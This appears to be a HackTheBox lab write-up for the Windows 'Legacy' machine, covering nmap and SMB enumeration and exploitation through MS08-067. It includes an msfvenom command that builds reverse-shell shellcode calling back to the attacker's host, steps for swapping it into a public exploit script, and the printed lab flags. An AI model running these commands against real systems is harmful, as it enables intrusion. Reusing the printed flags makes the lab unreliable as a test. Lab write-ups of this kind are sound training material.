 # legacy 

## Reconnaissance

### nmap (light)
```
nmap -sC -sV -oN nmap/egacy2 10.129.227.181
```

![](./IMG/0.png)
### nmap (heavy)
```
nmap -sV -T4 -p- -oN legacy_all 10.129.227.181
```

![](./IMG/1.png)


### NetBIOS and SMB

- Scan netbios service (port 139)
```
nmap -sV -T4 --script nbstat.nse -p139 -pN -n -oN legacy_nbt 10.129.227.181
```

![](./IMG/2.png)
- Scan SMB service by enum script (port 445)
```
nmap --script "safe or smb-enum-*" -p445 -oN legacy_smb 10.129.227.181
```
- Result first part 

![](./IMG/3.png)
- Second part, show some information about service

![](./IMG/4.png)
- Third part, it show some possible vuln

![](./IMG/5.png)
- Show the possible shares 

![](./IMG/6.png)
- Show some OS information

![](./IMG/7.png)
- Focus on scanning vuln 
```
nmap --script "smb-vuln-*" -p445 -oN legacy_smb3 10.129.227.181
```
- It shows the vulnerability for ms08-067

![](./IMG/8.png)
- The vulnerability for ms17-010

![](./IMG/9.png)
- Searchsploit for MS17-010

![](./IMG/10.png)
- Searchsploit for MS08-067

![](./IMG/11.png)
- crackmapexec command for smb service 
```
crackmapexec smb 10.129.227.181 -u '' -p '' --shares
```

![](./IMG/12.png)
- smbclient for null user

![](./IMG/13.png)
- smbclient without password

![](./IMG/14.png)
- smbclient 

![](./IMG/15.png)
#### Information from enum4linux-ng
- Target Information & Listener Scan on target

![](./IMG/16.png)
- NetBIOS Information

![](./IMG/17.png)
- SMB Dialect Check 

![](./IMG/18.png)
- Domain Infomation from SMB 

![](./IMG/19.png)
- RPC Related & Domain Information from RPC

![](./IMG/20.png)
- OS Information from RPC

![](./IMG/21.png)
- Users Information and Group Information from RPC 

![](./IMG/22.png)
- Shares ,Policy and Principle Information from RPC 

![](./IMG/23.png)

## Exploit 

- Research the exploit for ms08_067, the following information are very useful
- [(GITHUB)ms08_067 - Exploit Code - README](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)
- [(GITHUB)ms08_067 - Exploit Code - 2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
- Generate shellcode by msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.17.145 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f c -a x86 --platfomr windows
```

![](./IMG/24.png)
- Copy the shellcode to replace the one in``` ms08_067.py```

![](./IMG/25.png)
- Execute the exploit code 

![](./IMG/26.png)

![](./IMG/27.png)
- Check the listener, it will get the reverse shell

![](./IMG/28.png)
- user flag
```
e69af0e4f443de7e36876fda4ec7644f
```
![](./IMG/29.png)
- root flag
```
993442d258b0e0ec917cae9e695d5713
```
![](./IMG/30.png)

## Second Method 

> From others writeup and the nmap result, this lab also can be exploited by ms17_010

## Reference 

- [(HackTrick)SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [(HackTrick)SMB-2](https://hacktricks.boitatech.com.br/pentesting/pentesting-smb)
- [(HackTrick)MSRPC](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)
- [(HackTrick)MSRPC-2](https://hacktricks.boitatech.com.br/pentesting/135-pentesting-msrpc)
- [(GITHUB)ms08_067 - Exploit Code](https://github.com/andyacer/ms08_067)
- [(GITHUB)ms08_067 - Exploit Code - README](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)
- [(GITHUB)ms08_067 - Exploit Code - 2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
- [Metasploit Basics for Beginners – Exploiting Windows XP (MS08–067) with Metasploit (Kali Linux) – Part 1](https://www.getastra.com/blog/security-audit/how-to-hack-windows-xp-using-metasploit-kali-linux-ms08067/)
- [Exploit Eternal Blue (MS17–010) for Windows XP with custom payload](https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-windows-xp-with-custom-payload-fabbbbeb692f)
- [(GITHUB)ms17-010 - Exploit Code - 1](https://github.com/worawit/MS17-010)
- [(GITHUB)ms17-010 - Exploit Code - 2](https://github.com/a6avind/MS17-010)
- [(GIThUB)ms17-010 - Exploit Code - 3](https://github.com/3ndG4me/AutoBlue-MS17-010)
- [Windows Privilege Escalation Fundamentals](https://fuzzysecurity.com/tutorials/16.html)
- [(HackTrick)Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)


###### tags: `HackTheBox` `Easy` `Windows` `ms08_067` `ms17_010` `SMB` `445`
